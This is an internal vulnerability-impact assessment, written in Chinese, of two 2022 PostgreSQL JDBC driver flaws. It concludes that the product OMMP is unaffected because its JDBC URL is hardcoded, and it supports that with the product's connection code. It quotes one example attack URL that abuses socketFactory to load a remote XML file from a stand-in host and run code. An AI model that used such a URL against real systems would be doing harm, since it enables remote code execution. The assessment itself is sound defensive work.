 # postgresql漏洞版本
2022年2月，PostgreSQL JDBC Driver（简称 PgJDBC）官方发布多个漏洞公告。其中包括 PostgreSQL JDBC Driver 任意代码执行漏洞、PostgreSQL JDBC Driver 任意文件写入漏洞（CVE-2022-21724、QVD-2022-1479）。
PostgreSQL JDBC Driver 任意代码执行漏洞（CVE-2022-21724）：PgJDBC 驱动程序根据 authenticationPluginClassName、sslhostnameverifier、socketFactory、sslfactory、sslpasswordcallback 连接属性中提供的类名进行实例化，若受害机器可通外网，且 JDBC 连接 URL 属性可控，未经授权的远程攻击者利用该漏洞可加载任意类导致代码执行。
PostgreSQL JDBC Driver 任意文件写入漏洞（QVD-2022-1479）：PgJDBC 驱动程序从 42.0.0 版本开始支持使用日志记录（或跟踪）错误，来帮助开发人员解决应用程序在使用 PgJDBC 驱动程序时出现各种问题。在使用 PgJDBC 驱动连接 postgresql 数据库时，可以通过 loggerLevel 和 loggerFile 参数声明日志级别和日志输出文件，loggerFile 参数不指定目录时默认在当前目录下创建日志文件。当连接 PostgreSQL 数据库的 URL 或参数（loggerLevel、loggerFile）可控时，即可写入任意文件。
【漏洞等级】
高危
【影响范围】
* <= PgJDBC < 42.2.25
42.3.0 <= PgJDBC < 42.3.3 
经过初步分析，多媒体产品使用postgres数据库客户端的网元所使用的PgJDBC版本均在影响范围内，范围非常大。

OMMP目前使用版本
postgresql-42.2.19.jar

问题分析（被攻击条件）：
当攻击者控制 jdbc url 
若受害机器可通外网
JDBC 连接属性可控
实例：
这是一个使用 Spring Framework 中的开箱即用类的示例攻击：
```
DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");
```
第一个受影响的版本是 REL9.4.1208（它引入了socketFactory连接属性）
结论：在OMMP中jdbcURL是写死在xml文件中，通过解析xml文件的方式来加载驱动连接数据库驱动，因此不会收到外部jdbcURL的控制，也不会填入属性，因此不涉及此项漏洞

OMMP数据库获取驱动的方法：
获取URL的路径为
从配置文件中获取信息
    ```
     //获取数据库连接信息
     // @param filename 配置文件
    
    public static boolean getDbConnectionInfo(String filename) {
        boolean ret = false;
        if (filename == null || "".equals(filename)) {
            return false;
        }
        try {
            // 使用builder创建文档对象
            SAXBuilder builder = new SAXBuilder();
            Document doc = builder.build(filename);
            // 获取根元素 <config>
            Element root = doc.getRootElement();
            if (root != null) {
                // 获取子元素<db>
                Element db = root.getChild("db");
                // 若<db>元素不为空
                if (db != null) {
                    // <db><scpnum>3</scpnum></db> 获取scpnum标签的文本内容
                    int dbNum = Integer.parseInt(db.getChildText("scpnum"));
                    // 循环配置文件中所有连接池 <scpdb>
                    for (int i = 1; i <= dbNum; i++) {
                        Element scpdb = db.getChild("scpdb" + i);
                        if (scpdb != null) {
                            // 获取<scpdb>-><scpid>节点元素的文本内容 连接池名称 poolName = omm 连接池
                            if ("omm".equals(scpdb.getChildText("scpid"))) {
                                String url = scpdb.getChildText("url");
                                if (!(url == null || "".equals(url))) {
                                    // 处理数据库链接 url mariadb驱动
                                    if (url.contains("mariadb")) {
                                    	if(url.contains("useSSL=true"))ssl=true;
                                        mariaDbUrlHandler(scpdb, url);
                                        ret = true;
                                        break;
                                    }
                                    // 处理数据库链接 url postgresql驱动
                                    if (url.contains("postgresql")) {
                                        pgSqlUrlHandler(scpdb, url);
                                        ret = true;
                                        break;
                                    }
                                    // 处理数据库链接 url sybase 驱动
                                    if (url.contains("sybase")) {
                                        sybaseSqlUrlHandler(scpdb, url);
                                        ret = true;
                                        break;
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    ```
 最终组合url
```

      if (dbType == DbType.DB_TYPE_PGSQL && null != dbName) {
            url.append("jdbc:postgresql://").append(ip).append(":").append(port).append("/").append(dbName)
                    .append("?").append("user=").append(username).append("&password=").append(password)
                    .append("&useUnicode=true&characterEncoding=UTF8");
        }
```
连接驱动信息
```
    /**
     * 获取数据库链接
     *
     * @return Connection
     */
    public static Connection getConnection() {
        if (connection == null) {
            try {
                connection = DriverManager.getConnection(ConfigXmlParseUtil.getUrl());
                LOGGER.info("get connection successfully");
            } catch (SQLException e) {
                LOGGER.error("get connection failed", e);
            }
        }
        return connection;
    }
```
PostgreSQL JDBC Driver 任意文件写入漏洞（QVD-2022-1479）
因为不涉及可控jdbcURL不会产生这项漏洞
